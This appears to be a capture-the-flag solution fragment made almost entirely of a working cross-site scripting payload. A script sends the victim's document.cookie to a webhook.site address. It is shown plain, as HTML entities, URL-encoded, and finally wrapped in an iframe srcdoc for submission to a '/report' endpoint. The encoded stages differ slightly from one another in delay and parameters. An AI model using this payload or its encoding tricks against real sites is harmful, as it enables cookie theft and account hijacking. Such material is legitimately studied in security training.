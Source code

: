 From:
```javascript
<script>setTimeout((() => {location='https://webhook.site/eff3d34f-c08d-463e-9f1b-f33b5eb87603'+document.cookie}), 2000)</script>
```

=> To HTML Entity (Numeric/Decimal)
```
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#115;&#101;&#116;&#84;&#105;&#109;&#101;&#111;&#117;&#116;&#40;&#40;&#40;&#41;&#32;&#61;&#62;&#32;&#123;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#119;&#101;&#98;&#104;&#111;&#111;&#107;&#46;&#115;&#105;&#116;&#101;&#47;&#101;&#102;&#102;&#51;&#100;&#51;&#52;&#102;&#45;&#99;&#48;&#56;&#100;&#45;&#52;&#54;&#51;&#101;&#45;&#57;&#102;&#49;&#98;&#45;&#102;&#51;&#51;&#98;&#53;&#101;&#98;&#56;&#55;&#54;&#48;&#51;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#125;&#41;&#44;&#32;&#49;&#48;&#48;&#48;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;
```

=> To URL encode
```
%26%2360%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26%2362%3B%26%23115%3B%26%23101%3B%26%23116%3B%26%2384%3B%26%23105%3B%26%23109%3B%26%23101%3B%26%23111%3B%26%23117%3B%26%23116%3B%26%2340%3B%26%2340%3B%26%2340%3B%26%2341%3B%26%2332%3B%26%2361%3B%26%2362%3B%26%2332%3B%26%23123%3B%26%23108%3B%26%23111%3B%26%2399%3B%26%2397%3B%26%23116%3B%26%23105%3B%26%23111%3B%26%23110%3B%26%2361%3B%26%2339%3B%26%23104%3B%26%23116%3B%26%23116%3B%26%23112%3B%26%23115%3B%26%2358%3B%26%2347%3B%26%2347%3B%26%23119%3B%26%23101%3B%26%2398%3B%26%23104%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%2346%3B%26%23115%3B%26%23105%3B%26%23116%3B%26%23101%3B%26%2347%3B%26%23101%3B%26%23102%3B%26%23102%3B%26%2351%3B%26%23100%3B%26%2351%3B%26%2352%3B%26%23102%3B%26%2345%3B%26%2399%3B%26%2348%3B%26%2356%3B%26%23100%3B%26%2345%3B%26%2352%3B%26%2356%3B%26%2351%3B%26%23101%3B%26%2345%3B%26%2357%3B%26%23102%3B%26%2349%3B%26%2398%3B%26%2345%3B%26%23102%3B%26%2351%3B%26%2351%3B%26%2398%3B%26%2353%3B%26%23101%3B%26%2398%3B%26%2356%3B%26%2355%3B%26%2354%3B%26%2348%3B%26%2351%3B%26%2339%3B%26%2343%3B%26%23100%3B%26%23111%3B%26%2399%3B%26%23117%3B%26%23109%3B%26%23101%3B%26%23110%3B%26%23116%3B%26%2346%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%23125%3B%26%2341%3B%26%2344%3B%26%2332%3B%26%2349%3B%26%2348%3B%26%2348%3B%26%2348%3B%26%2341%3B%26%2360%3B%26%2347%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26%2362%3B
```

Final payload to send to `/report`:
```
http://localhost/?q=<iframe srcdoc="%26%2360%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26%2362%3B%26%23115%3B%26%23101%3B%26%23116%3B%26%2384%3B%26%23105%3B%26%23109%3B%26%23101%3B%26%23111%3B%26%23117%3B%26%23116%3B%26%2340%3B%26%2340%3B%26%2340%3B%26%2341%3B%26%2332%3B%26%2361%3B%26%2362%3B%26%2332%3B%26%23123%3B%26%23108%3B%26%23111%3B%26%2399%3B%26%2397%3B%26%23116%3B%26%23105%3B%26%23111%3B%26%23110%3B%26%2361%3B%26%2339%3B%26%23104%3B%26%23116%3B%26%23116%3B%26%23112%3B%26%23115%3B%26%2358%3B%26%2347%3B%26%2347%3B%26%23119%3B%26%23101%3B%26%2398%3B%26%23104%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%2346%3B%26%23115%3B%26%23105%3B%26%23116%3B%26%23101%3B%26%2347%3B%26%23101%3B%26%23102%3B%26%23102%3B%26%2351%3B%26%23100%3B%26%2351%3B%26%2352%3B%26%23102%3B%26%2345%3B%26%2399%3B%26%2348%3B%26%2356%3B%26%23100%3B%26%2345%3B%26%2352%3B%26%2356%3B%26%2351%3B%26%23101%3B%26%2345%3B%26%2357%3B%26%23102%3B%26%2349%3B%26%2398%3B%26%2345%3B%26%23102%3B%26%2351%3B%26%2351%3B%26%2398%3B%26%2353%3B%26%23101%3B%26%2398%3B%26%2356%3B%26%2355%3B%26%2354%3B%26%2348%3B%26%2351%3B%26%2363%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2361%3B%26%2339%3B%26%2343%3B%26%23100%3B%26%23111%3B%26%2399%3B%26%23117%3B%26%23109%3B%26%23101%3B%26%23110%3B%26%23116%3B%26%2346%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%23125%3B%26%2341%3B%26%2344%3B%26%2332%3B%26%2350%3B%26%2348%3B%26%2348%3B%26%2348%3B%26%2341%3B%26%2360%3B%26%2347%3B%26%23115%3B%26%2399%3B%26%23114%3B%26%23105%3B%26%23112%3B%26%23116%3B%26%2362%3B"><iframe>
```
